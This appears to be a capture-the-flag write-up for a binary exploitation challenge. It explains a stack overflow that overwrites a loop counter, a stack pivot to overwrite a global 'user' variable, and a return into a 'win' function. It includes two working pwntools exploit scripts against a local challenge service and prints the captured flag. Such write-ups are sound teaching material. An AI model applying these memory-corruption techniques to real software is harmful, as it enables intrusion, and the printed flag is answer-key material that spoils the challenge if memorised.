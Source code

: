 # Description

![](./media/Screen%20Shot%202024-06-12%20at%208.42.56%20PM.png)

## analyzing the binary
first let's decompile the binary so we can figure out what it does, it reads input from user and then print an ascii art

![](./media/Screen%20Shot%202024-06-10%20at%2010.49.03%20PM.png)

there is also a `win` function that when called print the output of `flag.txt` file but only if the global variable `user == "admin"`

![](./media/Screen%20Shot%202024-06-12%20at%208.44.18%20PM.png)


# solution
### user input
the user input is provided in the form of chunks of 8 bytes, the last iteration is when `i > 105` and that will be when `i == 112`, so we can overflow the buffer but we only have 4 bytes after the buffer to override.

when we examine the assembly code we find that `i` is at the position `RBP - 0x4` and `buffer` is at `RBP - 0x70` meaning that `i` is lower in the stack so we can override it.

now that we control the loop counter, we can override the return value by calculating the offset between `buffer` and the return value and override `i` accordingly.

### calculating the offset
we can use gdb for this, first we set a break point just before the end of `vuln`, run and provide random input, then we can print the stack and evaluate the offset.


![](./media/Screen%20Shot%202024-06-12%20at%201.20.04%20AM.png)
![](./media/Screen%20Shot%202024-06-12%20at%201.13.55%20AM.png)

```
offset = 112
```

### overriding the return address
now we just need to send the payload to overflow `buffer` and override `i` with `offset`, and then send the new return address

```py
from pwn import *

offset = 112
with gdb.debug('./challenge', gdbscript='', api=True) as p:
    p.gdb.Breakpoint("*vuln+107", temporary=False); # pop rbp
    p.gdb.continue_nowait()

    p.recv()
    for i in range(13):
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(b'AAAA' + p32(offset));
    p.send(b'B' * 8);
    p.gdb.wait()
    p.interactive()
```
![](./media/Screen%20Shot%202024-06-12%20at%208.31.59%20PM.png)

### overriding `user`

we have successfully override the return address but we still need to override `user` before jumping to `win`, in order to do that we will performe a stack pivote to allow us to override more address, first we jump to gadget `sub    rsp,0x70` in `vuln`, `RBP` will now point to the base of `main` since it was poped before `ret`, and we can now execute the `vuln` function but with `buffer` and `i` at a slightly lower position in stack

```
                   ┌────────────────────┐◄────── RSP                           ┌────────────────────┐◄────── RSP
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
RBP - 0x70 ───────►│                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                   RBP - 0x70 ───────►│                    │           
                   │    vuln's stack    │                                      │    vuln's stack    │           
                   │                    │                                      │                    │           
                   │                    │       After poping RBP and           │                    │           
                   │                    │       jumping to gadget              │                    │           
                   │                    │       ───────────────────────►       │                    │           
                   │                    │                                      │                    │           
 RBP - 0x4 ───────►│                    │                                      │                    │           
                   ├────────────────────┤ ◄────── RBP                          ├────────────────────┤           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │    main's stack    │                                      │    main's stack    │           
                   │                    │                                      │                    │           
                   │                    │                    RBP - 0x4 ───────►│                    │           
                   └────────────────────┘                                      └────────────────────┘◄────── RBP 
```

this will make us able to override the return address and also the address after it and also an arbitrary offset from `buffer` by overriding `i`.

the next step is to override `RBP` with `&user + 0x70` then jump to `LEA        RSI ,[RBP - 0x70]` to override `user` then jump to `win` and voila!

![](./media/Screen%20Shot%202024-06-12%20at%209.38.39%20PM.png)

```py
from pwn import *                                                                                                                 
                                     
offset = 112
offset2 = 0x00007fff9054e5d8 - 0x7fff9054e500
                                     
                                     

with remote('localhost',14124) as p: 
    time.sleep(0.1)                                                       
    p.recv()                                                               
                                                                           
    for i in range(13):                                                    
        p.send(chr(ord('a') + i).encode() * 8);               
    p.send(b'AAAA' + p32(offset));
    p.send(p64(0x004011f4)); # sub rsp, 0x70
    #p.send(b'B' * 8);
                                     
    p.recv()
    for i in range(10):                                                    
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(p64(0x404070)); # &user - 0x70
    p.send(p64(0x40122e)); # call read
    p.send(b'B' * 8);
    p.send(b'AAAA' + p32(offset2 - 8));
    p.send(p64(0x00401160)); # win addr
                                     
    p.recv()                                                               
    p.send(b'admin\x00\x00\x00')
    print(p.recv())                                                        
    p.interactive()

#flag: AKASEC{y4pp1n6_15_50m371m35_u53full_9b9b3d9}

```


